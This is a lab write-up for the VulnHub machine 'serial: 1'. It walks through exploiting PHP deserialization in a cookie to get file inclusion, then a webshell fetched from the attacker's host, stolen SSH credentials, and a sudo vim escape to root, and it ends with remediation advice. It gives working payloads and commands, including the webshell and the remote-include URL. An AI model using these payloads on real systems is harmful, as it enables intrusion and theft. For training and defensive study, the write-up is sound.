



# serial: 1 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.2.6 (host-only) |
| **Difficulty** | Medium |
| **OS** | Linux |
| **Flags** | user flag + root flag |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/serial-1,396/) |

## Attack Summary

nmap → dirb → backup directory (source code) → PHP deserialization via `user` cookie → LFI using `Log` class `type_log` → host PHP shell → cmd RCE → `credentials.txt.bak` → SSH (sk4) → `sudo vim` → vim shell escape → root

## Methodology

1. Network discovery and port scan
2. Web and directory enumeration
3. Source code analysis (backup zip)
4. PHP deserialization exploit via cookie manipulation
5. LFI via Log class to RCE
6. SSH with harvested credentials
7. sudo vim privilege escalation

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.2.0/24
nmap -p- -A 192.168.2.6
```

Open ports: 22 (SSH), 80 (HTTP).


---

## Step 2: Web Enumeration

```bash
dirb http://192.168.2.6
```

Finds a `/backup/` directory containing a zip file with the PHP source code: `index.php`, `class.php`, and `user.class.php`.

Download and review:

```bash
wget http://192.168.2.6/backup/backup.zip
unzip backup.zip
cat user.class.php
cat class.php
```

---

## Step 3: Understanding the Deserialization Vulnerability

The `user` cookie is a base64-encoded serialized PHP `User` object. The `Log` class has a `__toString` method that includes `$this->type_log`, which defaults to null but is never sanitised — meaning it can be set to any path, causing a file include.

Decode the current cookie:

```bash
echo "<cookie_value>" | base64 -d
# O:4:"User":2:{s:8:"username";s:5:"guest";...}
```



---

## Step 4: LFI via Serialized Cookie

Modify `user.class.php` to set `type_log` to `/etc/passwd` in the `Log` constructor:

```php
<?php
require 'class.php';
$log = new Log();
$log->type_log = '/etc/passwd';
$user = new User('admin');
$user->log = $log;
echo base64_encode(serialize($user));
```

```bash
php user.class.php
# Copy the output as the new cookie value
```

Browse to the site with the crafted cookie — the response includes `/etc/passwd` content, confirming LFI.



---

## Step 5: RCE via Remote File Include

Host a PHP webshell on the attacker machine:

```bash
echo '<?php system($_GET["cmd"]); ?>' > /tmp/shell.php
python3 -m http.server 8000
```

Set `type_log` to the attacker URL:

```php
$log->type_log = 'http://192.168.2.3:8000/shell.php';
```

Regenerate and set the cookie. Test execution:

```
http://192.168.2.6/?cmd=id
# uid=33(www-data)
```

Read credentials:

```
http://192.168.2.6/?cmd=cat+/var/www/html/credentials.txt.bak
# sk4:<password>
```


---

## Step 6: SSH Login

```bash
ssh sk4@192.168.2.6
cat flag.txt
# User flag
```

---

## Step 7: Privilege Escalation — sudo vim

```bash
sudo -l
# User sk4 may run: (root) NOPASSWD: /usr/bin/vim
sudo vim
```

Inside vim, escape to a root shell:

```
:!/bin/bash
```

```bash
id
# uid=0(root)
cd /root && cat fl4g.txt
```



---

## Lessons Learned

1. **PHP deserialization via cookie** — never trust serialized user-controlled input; validate and sign cookies (HMAC); use JSON instead of PHP serialization where possible
2. **LFI through class properties** — unset properties used in `include` paths enable injection; always initialize and validate class properties
3. **Remote file inclusion** — disable `allow_url_include` in `php.ini`
4. **sudo vim** — giving `sudo` access to any editor (vim, nano, less) grants effective root; audit sudoers rigorously

## Remediation

| Vulnerability | Fix |
|---------------|-----|
| PHP deserialization | Sign cookies with HMAC; use `json_encode/decode` instead |
| LFI via Log class | Initialize `type_log` with a validated allowlist |
| Remote file include | Set `allow_url_include = Off` in `php.ini` |
| sudo vim | Remove from sudoers; use specific, narrowly-scoped sudo rules |
